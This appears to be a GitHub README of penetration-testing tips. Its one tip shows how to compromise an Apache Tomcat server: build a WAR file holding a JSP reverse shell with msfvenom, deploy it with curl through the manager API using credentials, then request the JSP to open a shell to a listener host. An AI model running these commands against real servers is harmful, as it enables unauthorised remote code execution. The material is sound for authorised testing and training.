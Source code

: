 # PenTips
Daily offensive security & penetration testing tips

### Tip 1
##### Tomcat
**Subject** : Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml).
<br/>(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application).

If the Host is configured with *unpackWARs=true* (server.xml) and you deploy a war file, it will be unpacked into a directory in your Host appBase directory.
<br/>   `<Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">`

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**.
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl.
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload.
<br/>`curl -u 'tomcat':'password' http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`
